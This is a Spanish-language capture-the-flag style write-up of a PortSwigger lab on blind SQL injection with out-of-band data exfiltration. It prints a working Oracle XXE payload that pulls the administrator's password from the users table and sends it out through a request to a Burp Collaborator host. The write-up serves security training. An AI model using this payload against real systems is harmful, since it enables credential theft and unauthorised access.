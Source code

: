 ```yaml
---
title: "16 Blind SQL injection with out of band data exfiltration"
collection: publications
category: portswigger
permalink: publications/SQLi/16_Blind SQL injection with out of band data exfiltration
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL fuera de banda para obtener la contraseña del administrador.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out of band data exfiltration'
---
```


![logo]({{site.url}}/images/SQLi/sqli-16/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-16/descripcion.png)

## Objetivo del laboratorio

* Explotar una vulnerabilidad SQLi para obtener el password del usuario administrator.
* Login como usuario administrador

# Cheat Sheet

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Cheet]({{site.url}}/images/SQLi/sqli-16/cheet.png)

# Servidor

Obtenemos un servidor desde la pestaña `Collaborator`

`nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com`

Usamos los payloads que nos proporciona la hoja de trucos de Burp y le colocamos el servidor que nos proporciono.

```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![payload]({{site.url}}/images/SQLi/sqli-16/payload.png)

Abrimos el colaborator y vemos la contraseña del usuario `administrator`

![resultado]({{site.url}}/images/SQLi/sqli-16/resultado.png)

## Login

![login]({{site.url}}/images/SQLi/sqli-16/login.png)

## Resuelto

![resuelto]({{site.url}}/images/SQLi/sqli-16/aprobado.png)
